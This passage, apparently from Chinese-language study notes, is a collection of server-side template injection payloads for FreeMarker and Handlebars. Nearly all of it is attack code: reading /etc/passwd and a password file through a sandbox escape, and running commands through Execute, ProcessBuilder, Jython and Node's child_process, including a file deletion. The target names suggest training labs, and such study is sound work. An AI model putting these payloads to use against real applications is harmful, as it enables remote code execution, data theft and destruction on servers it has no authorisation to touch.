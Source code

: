* **api 内建函数的利用**

    ```
    eg1：
        <#assign classLoader=object?api.class.getClassLoader()>
        ${classLoader.loadClass("our.desired.class")}
    
    eg2：
        <#assign uri=object?api.class.getResource("/").toURI()>
        <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
        <#assign is=input?api.getInputStream()>
        FILE:[<#list 0..999999999 as _>
        <#assign byte=is.read()>
        <#if byte == -1>
        <#break>
        </#if>
        ${byte}, </#list>]
    ```

* **new 内建函数的利用**

    ```
    <#assign test="freemarker.template.utility.Execute"?new()>
    ${test("find / -name morale.txt")}
    
    <#assign value="freemarker.template.utility.ObjectConstructor"new()>
    ${value("java.lang.ProcessBuilder","calc.exe").start()}
    
    <#assign value="freemarker.template.utility.JythonRuntime"?new()>
    <@value>import os;os.system("calc.exe")</@value>//@value为自定义标签
    ```

* 穿透沙盒

    ```
    ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
    ```

###### handlebars

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
